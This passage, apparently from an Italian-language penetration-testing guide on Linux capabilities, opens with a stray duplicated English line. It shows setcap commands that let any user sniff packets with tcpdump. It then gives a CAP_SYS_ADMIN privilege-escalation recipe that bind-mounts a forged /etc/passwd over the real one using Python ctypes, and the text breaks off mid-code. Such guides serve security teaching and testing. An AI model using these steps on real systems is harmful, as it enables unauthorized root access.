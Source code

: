 After setting the capabilities, any user will be able to run `tcpdump` and sniff packets without requiring root privileges.
```
```

Per consentire a qualsiasi utente di intercettare pacchetti con `tcpdump`, è necessario impostare le seguenti **capacità**:

1. `CAP_NET_RAW`: Questa capacità consente all'utente di creare socket raw, che è necessario per l'intercettazione dei pacchetti.

Per impostare queste capacità, è possibile utilizzare il comando `setcap`:

```bash
sudo setcap cap_net_raw=eip /usr/sbin/tcpdump
```

Dopo aver impostato le capacità, qualsiasi utente sarà in grado di eseguire `tcpdump` e intercettare pacchetti senza richiedere privilegi di root.
```bash
setcap cap_net_raw,cap_net_admin=eip /usr/sbin/tcpdump
getcap /usr/sbin/tcpdump
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+eip
```
### Il caso speciale delle "capabilities" vuote

[Dalla documentazione](https://man7.org/linux/man-pages/man7/capabilities.7.html): Si noti che è possibile assegnare insiemi di "capabilities" vuoti a un file di programma e quindi è possibile creare un programma con set-user-ID-root che cambia l'ID utente effettivo e salvato del processo che esegue il programma a 0, ma non conferisce alcuna "capability" a tale processo. In altre parole, se si dispone di un binario che:

1. non è di proprietà di root
2. non ha impostati i bit `SUID`/`SGID`
3. ha un insieme di "capabilities" vuoto (ad esempio: `getcap myelf` restituisce `myelf =ep`)

allora **quel binario verrà eseguito come root**.

## CAP\_SYS\_ADMIN

**[`CAP_SYS_ADMIN`](https://man7.org/linux/man-pages/man7/capabilities.7.html)** è una "capability" di Linux molto potente, spesso equiparata a un livello quasi di root a causa dei suoi ampi **privilegi amministrativi**, come il montaggio di dispositivi o la manipolazione delle funzionalità del kernel. Sebbene indispensabile per i contenitori che simulano interi sistemi, **`CAP_SYS_ADMIN` presenta significativi problemi di sicurezza**, specialmente in ambienti containerizzati, a causa del suo potenziale per l'elevazione dei privilegi e la compromissione del sistema. Pertanto, il suo utilizzo richiede rigorose valutazioni di sicurezza e una gestione cauta, con una forte preferenza per la rimozione di questa "capability" nei contenitori specifici dell'applicazione per aderire al **principio del privilegio minimo** e ridurre al minimo la superficie di attacco.

**Esempio con binario**
```bash
getcap -r / 2>/dev/null
/usr/bin/python2.7 = cap_sys_admin+ep
```
Utilizzando python è possibile montare un file _passwd_ modificato sopra il vero file _passwd_:
```bash
cp /etc/passwd ./ #Create a copy of the passwd file
openssl passwd -1 -salt abc password #Get hash of "password"
vim ./passwd #Change roots passwords of the fake passwd file
```
E infine **monta** il file `passwd` modificato su `/etc/passwd`:
```python
from ctypes import *
libc = CDLL("libc.so.6")
libc.mount.argtypes = (c_char_p, c_char_p, c_char_p, c_ulong, c_char_p)
MS_BIND = 4096
source = b"/path/to/fake/passwd"
target = b"/etc/passwd"
```